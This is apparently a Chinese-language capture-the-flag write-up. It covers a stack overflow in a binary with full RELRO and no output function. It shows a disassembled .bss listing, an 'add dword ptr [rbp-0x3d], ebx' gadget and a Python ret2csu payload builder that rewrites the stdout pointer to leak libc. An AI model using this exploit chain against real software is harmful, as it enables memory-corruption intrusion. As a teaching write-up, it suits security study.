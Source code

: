 没有输出函数，开启了full relro，只有一个孤零零的栈溢出

这样似乎陷入了一个困境，没有输出函数就无法泄露libc地址，full relro又无法利用ret2dlsolve，这对于一些pwn栈漏洞知识掌握不深的师傅（没错就是我）似乎就没办法进行攻击了，后来经过其他师傅提醒到了这个magic\_gadget

#### 利用思路

虽然got表是不可写了，但是并不意味着其他地方就不储存函数地址了，比如在bss段上就储存了一些地址

```plain
bss:0000000000601020                               public stdout@@GLIBC_2_2_5
.bss:0000000000601020                               ; FILE *stdout
.bss:0000000000601020 ?? ?? ?? ?? ?? ?? ?? ??       stdout@@GLIBC_2_2_5 dq ?                ; DATA XREF: LOAD:00000000004003C8↑o
.bss:0000000000601020                                                                       ; main+46↑r
.bss:0000000000601020                                                                       ; Alternative name is 'stdout'
.bss:0000000000601020                                                                       ; Copy of shared data
.bss:0000000000601028 ?? ?? ?? ?? ?? ?? ?? ??       align 10h
.bss:0000000000601030                               public stdin@@GLIBC_2_2_5
.bss:0000000000601030                               ; FILE *stdin
.bss:0000000000601030 ?? ?? ?? ?? ?? ?? ?? ??       stdin@@GLIBC_2_2_5 dq ?                 ; DATA XREF: LOAD:0000000000400410↑o
.bss:0000000000601030                                                                       ; main+28↑r
.bss:0000000000601030                                                                       ; Alternative name is 'stdin'
```

还有gadget

```plain
0x00000000004007e8 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret
```

那么我们的思路就是利用ret2csu和magic\_gadget将stdout改成一个输出函数的地址进行调用就可以泄露libc了

题目给了libc版本为2.27，可以利用libc文件查找相对偏移

构造如下

```plain
def csu(rbx, rbp, r12, r15, r14, r13, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call()
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    # csu(0, 1, fun_got, rdx, rsi, rdi, last)
​    payload = ""
​    payload += p64(csu_end_addr) 
​    payload += p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
​    payload += p64(csu_front_addr)
​    payload += p64(0)+p64(0xffffffffffd24620-0xd80+0xf0)+p64(0x601020+0x3d)+p64(read_got)*4
​    payload += p64(last)   
​    return payload

pl=p64(read_got)*8+p64(bss)
pl+=csu(0, 1, read_got, 0x100, elf.bss()+0x100, 0,magic_gadget)+p64(0x400788)+p64(elf.bss()+0x300)+p64(0x4008DC)
```
